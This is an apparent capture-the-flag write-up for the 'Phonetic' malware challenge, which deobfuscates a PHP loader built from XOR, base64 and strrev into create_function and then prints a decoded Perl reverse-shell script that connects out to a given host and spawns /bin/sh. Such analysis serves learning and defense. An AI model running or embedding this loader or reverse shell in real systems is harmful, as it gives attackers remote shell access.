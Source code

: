 # Phonetic - 362pt
--------------------------------------
## Topic sumary

This problem gives us file `Phonetic`, you can download it [here](https://github.com/Em0t3t/H-cktivityCon-2021-CTF/blob/main/Malware/resources/phonetic)
Open it with notepad++
```php 
<?php  


 function deGRi($wyB6B, $w3Q12 = '') { $zZ096 = $wyB6B; $pCLb8 = ''; for ($fMp3G = 0; $fMp3G < strlen($zZ096);) { for ($oxWol = 0; $oxWol < strlen($w3Q12) && $fMp3G < strlen($zZ096); $oxWol++, $fMp3G++) { $pCLb8 .= $zZ096[$fMp3G] ^ $w3Q12[$oxWol]; } } return $pCLb8; }
/*iNsGNGYwlzdJjfaQJIGRtTokpZOTeLzrQnnBdsvXYlQCeCPPBElJTcuHmhkJjFXmRHApOYlqePWotTXHMuiuNfUYCjZsItPbmUiXSxvEEovUceztrezYbaOileiVBabK*/

$lBuAnNeu5282 = ")o4la2cih1kp97rmt*x5dw38b(sfy6;envguz_jq/.0";
$gbaylYLd6204 = "LmQ9AT8aND16c2AcMh0lCS9BDFtTATklDzA.......";/*a fucking string =))) */
$fsPwhnfn8423 = "";
$oZjuNUpA325 = "";
foreach([24,4,26,31,29,2,37,20,31,6,1,20,31] as $k){
   $fsPwhnfn8423 .= $lBuAnNeu5282[$k];
}
foreach([26,16,14,14,31,33] as $k){
   $oZjuNUpA325 .= $lBuAnNeu5282[$k];
}

/*aajypPZLxFoueiuYpHkwIQbmoSLrNBGmiaDTgcWLKRANAfJxGeoOIzIjLBHHsVEHKTrhqhmFqWgapWrPsuMYcbIZBcXQrjWWEGzoUgWsqUfgyHtbwEDdQxcJKxGTJqIe*/

$k = $oZjuNUpA325('n'.''.''.'o'.''.''.'i'.''.'t'.''.'c'.''.'n'.''.'u'.'f'.''.''.''.''.'_'.''.''.''.'e'.''.'t'.''.'a'.''.'e'.''.''.''.''.'r'.''.''.''.''.'c');
$c = $k("/*XAjqgQvv4067*/", $fsPwhnfn8423( deGRi($fsPwhnfn8423($gbaylYLd6204), "tVEwfwrN302")));
$c();

/*TnaqRZZZJMyfalOgUHObXMPnnMIQvrNgBNUkiLwzwxlYWIDfMEsSyVVKkUfFBllcCgiYSrnTCcqLlZMXXuqDsYwbAVUpaZeRXtQGWQwhcAQrUknJCeHiFTpljQdRSGpz*/
```
---------------------------------------------------------
WTF? are you kidding me =)))
![](https://media.giphy.com/media/aZ3LDBs1ExsE8/giphy.gif)

I run the loops separately. it gives readable results :V
```php
$lBuAnNeu5282 = ")o4la2cih1kp97rmt*x5dw38b(sfy6;envguz_jq/.0";
$fsPwhnfn8423 = "";
foreach([24,4,26,31,29,2,37,20,31,6,1,20,31] as $k){
   $fsPwhnfn8423 .= $lBuAnNeu5282[$k];
}
echo $fsPwhnfn8423; // base64_decode
```
```php
$lBuAnNeu5282 = ")o4la2cih1kp97rmt*x5dw38b(sfy6;envguz_jq/.0";
$fsPwhnfn8423 = "";
foreach([26,16,14,14,31,33] as $k){
   $oZjuNUpA325 .= $lBuAnNeu5282[$k];
}

echo $oZjuNUpA325; // strrev
```
Continue...
```php
echo strrev('n'.''.''.'o'.''.''.'i'.''.'t'.''.'c'.''.'n'.''.'u'.'f'.''.''.''.''.'_'.''.''.''.'e'.''.'t'.''.'a'.''.'e'.''.''.''.''.'r'.''.''.''.''.'c');
//create_function
```
Put together we get
```php
create_function("",base64_decode(deGRi(base64_decode(/*fuckin string*/), "tVEwfwrN302")));
```
Run it and we get another php file =))), it [here](https://github.com/Em0t3t/H-cktivityCon-2021-CTF/blob/main/Malware/resources/phonetic_decode.php)
I'm stuck here....
After a few minutes (actually hours .-.). I found some base64 strings in source code
A string after decryption, it looks like this
```shell
#!/usr/bin/perl
use Socket;
$iaddr=inet_aton($ARGV[0]) || die("Error: $!\n");
$paddr=sockaddr_in($ARGV[1], $iaddr) || die("Error: $!\n");
$proto=getprotobyname('tcp');
socket(SOCKET, PF_INET, SOCK_STREAM, $proto) || die("Error: $!\n");
connect(SOCKET, $paddr) || die("Error: $!\n");
open(STDIN, ">&SOCKET");
open(STDOUT, ">&SOCKET");
open(STDERR, ">&SOCKET");
my $str = <<END;
begin 644 uuencode.uu
F9FQA9WLY8C5C-#,Q,V0Q,CDU.#,U-&)E-C(X-&9C9#8S9&0R-GT`
`
end
END
system('/bin/sh -i -c "echo ${string}; bash"');
close(STDIN);
close(STDOUT);
close(STDERR)
```
Do you see it?
```shell
begin 644 uuencode.uu
F9FQA9WLY8C5C-#,Q,V0Q,CDU.#,U-&)E-C(X-&9C9#8S9&0R-GT`
```
![](https://media.giphy.com/media/JqDeI2yjpSRgdh35oe/giphy.gif)

Decode it~~~
`
flag{9b5c4313d12958354be6284fcd63dd26}
`
